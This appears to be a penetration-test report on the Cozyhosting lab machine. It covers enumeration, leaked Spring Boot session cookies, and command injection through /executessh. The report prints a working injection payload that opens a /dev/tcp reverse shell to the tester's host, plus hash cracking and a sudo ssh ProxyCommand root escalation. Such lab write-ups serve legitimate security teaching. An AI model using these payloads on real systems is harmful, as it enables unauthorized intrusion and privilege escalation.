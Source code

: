 4.1 Cozyhosting – 10.10.11.230
To begin with, a Nmap scan will be issued to obtain all the open TCP ports on the target. Following command is used “sudo nmap -sS -p- --min-rate 10000 cozyhosting.htb”.
 
Illustration 1 Open TCP ports.
4.1.1 Service Enumeration
Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: “sudo nmap -sS -p22,80 -sV -O -sC cozyhosting.htb”
 
Illustration 2 Service versions
Port Scan Results
Port	Service	Version
22	SSH	OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80	http	nginx 1.18.0 (Ubuntu)
HTTP Enumeration
The first step taken was to scan using gobuster in order to find directories and other func-tions in the service. The command used was “sudo gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wfuzz/wordlist/general/common.txt”.
 
Illustration 3 Web directory scanning.
First thing to do is to manually check the findings. 

When accessing “admin” page, a redirection to “login” is found.
 
Illustration 4 Login page.
The “error” page gives more information as let us guess the type of application that is run-ning in the background. This is because “Whitelabel Error Page” is the default error page for Spring Boot applications.
 
Illustration 5 Whitelabel error page.
Taking the last into account, a new directory scan will be made but this time using a Spring Boot dictionary (obtained form https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/spring-boot.txt). 
Command used is “sudo gobuster dir -u http://cozyhosting.htb/ -w /home/corso/Desktop/wordlists/SecLists-master/Discovery/Web-Content/spring-boot.txt”.

 
Illustration 6 Spring Boot directory scan.
As shown in the previous picture, Spring Boot actuators are found. Sessions and Mappings actuators stand out because they give very useful information.
In “/actuator/mappings” we can see the different endpoints available in the application. Among them, “/executessh” seems to be interesting.
 
Illustration 7 Mappings' actuator.
Sessions’ actuator shows what seems to be a session cookie for the user Kanderson. If user “Kanderson” has rights to access the Admin page, it may be possible to use his session cookie and access on his behalf. 

 
Illustration 8 Sessions’ actuator content.
 
Illustration 9 Setting kanderson session cookie.
Once the cookie is set, it is possible to access the Admin Dashboard.  
Illustration 10 Admin dashboard.
Looking through the Admin dashboard, there is an interesting functionality that lets the user configure an arbitrary host for automatic patching through SSH. As expected, it uses the “/executessh” endopoint that stood out during the “/actuator/mappings” enumeration.
 
Illustration 11 Automatic host patching functionality.
Inserting two random values as “hostname=localhost&username=kanderson” generates a POST request to “/executessh” that results in a “Host key verification failed” error.
 
Illustration 12 Generated POST request.
 
Illustration 13 Response throwing an error.
The way the errors are thrown are suspicious as it seems to be the output of a shell com-mand. In order to generate more errors, I inserted some special characters to see if it is possible to inject some commands.

The error shown after inserting “hostname=localhost&username=hello;id;”, was a clear indi-cation that host may be vulnerable to command injection.
 
Illustration 14 Injecting ";" on username parameter.
 
Illustration 15 Command Injection trials.
The fact that the error says “@localhost: command not found” let us know that the com-mand executed on the backend is something like “ssh [some_options] <username>@<hostname>” and if “;” is inserted on the username parameter the ssh command will fail as it will not correctly receive the hostname parameter (because the server will consider everything after “;” as a new command).
It was also confirmed that front end did not allow blank spaces on the username parameter.
 
Illustration 16 Username parameter frontend filter.
After some trials, it was found that appending “%0A<command_to_execute_without_spaces>;” let us execute commands on the server.
In order to check the execution, a 404 HTTP GET request will be performed against a web server running on my machine.
 
Illustration 17 Command injection point found.
 
Illustration 18 Received HTTP GET request.
4.1.2 Initial Access – Command Injection
Vulnerability Explanation: misconfigured Spring Boot application that exposes other users’ session cookies has a insecure function “/executessh” where it is possible to inject com-mands to open a reverse shell.
Vulnerability Fix: securely store session cookies and correctly sanitize user input on “/executessh” function.
Severity: Critical
Steps to reproduce the attack: The 
•	Access “/actuator/sessions” and grab session cookie for user “kanderson”.
•	Setup a listener on port 444.
•	Using that cookie access the Admin dashboard and insert on username parameter: kanderson@%0A(sh)0>/dev/tcp/10.10.14.10/444;a
 
Illustration 19 Command injection.
•	Insert “exec >&0” on the recently opened shell.
 
Illustration 20 Reverse shell opened.
4.1.3 Post Exploitation.
After gaining initial access, a veri interesting file is  found called “cloudhosting-0.0.1.jar”
 
Illustration 21 Cloudhosting app jar file.
After downloading the file and manually inspecting it, some credentials for PostgreQL data-base are found inside a file called “application.properties”.
 
Illustration 22 PostgreSQL database credentials.
This password let me access the postgresql database using the command “psql -U post-gres -h localhost”.
 
Illustration 23 Accessing the database.
More credentials are found inside “Users” table.
 
Illustration 24 Users table contents.
Using hashcat and rockyou dictionary it is possible to crack the hash for user Admin.
 
Illustration 25 Admin password recovered,
Once this password is recovered, it is possible to access the target machine through SSH as the password was reused and is the same password for user local user josh.
 
Illustration 26 User.txt
4.1.4 Privilege Escalation – Insecure Sudo Permissions
Vulnerability Explanation: After establishing a foothold on target, Cosme noticed that the user has permissions to execute “ssh *” as a super user. This configuration let a user with-out privileges spawn a root shell.
Vulnerability Fix: avoid using wildcards when establishing the sudo permissions for a user.
Severity: Critical
Steps to reproduce the attack: execute “sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x”
Screenshot:
 
Illustration 27 System proof.
4.1.5 Post-Exploitation
System Proof Screenshot:
